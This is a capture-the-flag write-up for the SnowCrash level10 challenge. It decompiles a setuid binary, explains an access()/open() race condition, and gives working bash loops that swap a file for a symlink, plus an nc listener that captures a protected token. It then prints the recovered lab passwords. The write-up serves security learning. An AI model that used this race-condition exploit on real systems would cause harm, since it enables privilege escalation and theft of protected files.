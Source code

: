 # level10
This one is my favorite

- We login as user level10.
```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File level10.c:
int main(int, char **);

Non-debugging symbols:
0x080484d0  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
    HUGE CODE
End of assembler dump.
```


- Let's save time, we can use [Ghidra](https://en.wikipedia.org/wiki/Ghidra) to get an interpretation of the source code of this binary.
```c
int main(int argc,char **argv)
{
  ...  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*in_stack_00000008);
    exit(1);
  }

  pcVar6 = (char *)in_stack_00000008[1];
  __cp = (char *)in_stack_00000008[2];

  iVar2 = access(pcVar6,4);
  if (iVar2 != 0) {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  else {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    ...
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    ...

    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
      exit(1);
    }

    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
      exit(1);
    }

    printf("Connected!\nSending file .. ");
    fflush(stdout);

    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
      exit(1);
    }

    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
      exit(1);
    }

    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }

  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail();
  }
  return iVar2;
}
```


- We can see that the program makes a call to `access(argv[1])`. If this call succeeds, it will attempt to establish a socket connection to `argv[2]` through port 6969 in order to send the content of the file named `argv[1]`.


- Given that `access()` does not consider [the setuid and setgid bits](https://en.wikipedia.org/wiki/Setuid) when checking permissions, the program displays `You don't have access to the token` and then terminates.


- Note that [the call to access(), directly followed by a call to open(), is the subject of a security vulnerability](https://vulncat.fortify.com/en/detail?id=desc.controlflow.cpp.file_access_race_condition#C%2FC%2B%2B).
Indeed, between the time when the program calls `access(our_file)` and the time when it calls `open(our_file)`, it is possible for us to replace `our_file` with a file of the same name, but which would be a symbolic link to another file. As a result, the program will rely on the return of `access(our_file)` to determine whether it can `open(our_file)` or not.


- Thus, we will need 3 terminals. The first one will run `nc -lk 6969 > /tmp/pwn.log` to listen on all IPs through port 6969 and store everything it receives in `/tmp/pwn.log`.


- In a `while true` loop, the second part script creates a file accessible for reading, deletes it, and then creates a symbolic link with the same name, pointing to `/home/user/level10/token`.
```bash
#!/bin/bash
while true
do
	touch /tmp/exploit
	rm /tmp/exploit
	ln -s /home/user/level10/token /tmp/exploit
	rm /tmp/exploit
done
```


- The latter will run our binary in a loop, passing the readable file as a parameter to it.
```bash
#!/bin/bash
while true
do
	/home/user/level10/level10 "/tmp/exploit" "127.0.0.1"
done
```


- Thus:
```
level10@SnowCrash:~$ cat /tmp/pwn.log | grep -v ".*( )*."
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
...
```

```
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```
flag10@SnowCrash:~$ su level11
Password:feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```